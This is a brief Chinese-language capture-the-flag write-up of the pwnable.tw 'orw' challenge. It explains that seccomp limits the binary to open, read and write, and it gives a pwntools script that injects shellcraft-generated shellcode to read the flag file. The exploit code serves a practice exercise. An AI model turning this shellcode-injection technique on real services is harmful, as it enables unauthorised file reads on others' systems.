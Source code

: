 ```yaml
---
title: 'pwnable_orw'
date: 2024-01-25 13:00:00 +0800
categories: [ctf,pwn]
tags: [pwntools,shellcraft,shellcode,orw]
---
```

- `shellcraft`方法的使用

![image-20240125220416158](../assets/img/old_imgs/image-20240125220416158.png)

> 逻辑很简单,`shellcode`存在于`.bss`段上,写入`shellcode`,执行`shellcode`

![image-20240125220513324](../assets/img/old_imgs/image-20240125220513324.png)

> `orw_seccomp`对系统调用的函数做了限制,只能使用`sys_open,sys_read,sys_write`所以我们利用这三个函数直接读取flag

一种方法是手写汇编,然后通过`asm()`函数转换,难度比较大,另外一种就是我利用的这种,使用`pwntools`的`shellcraft`方法来生成`shellcode`

```python
from pwn import *
context.arch = 'i386'
context.log_level = 'debug'
#io = process('./orw')
io = remote('chall.pwnable.tw',10001)
#io = gdb.debug('./orw')
#shellcode = asm(shellcraft.sh())
shellcode = shellcraft.open('/home/orw/flag')+shellcraft.read('eax','esp',100)+shellcraft.write(1,'esp',100)
shellcode = asm(shellcode)
io.sendlineafter(b'Give my your shellcode:',shellcode)
io.interactive()
```

题目环境和本地环境可能版本有所不同,`shellcode`不一定能在本地运行
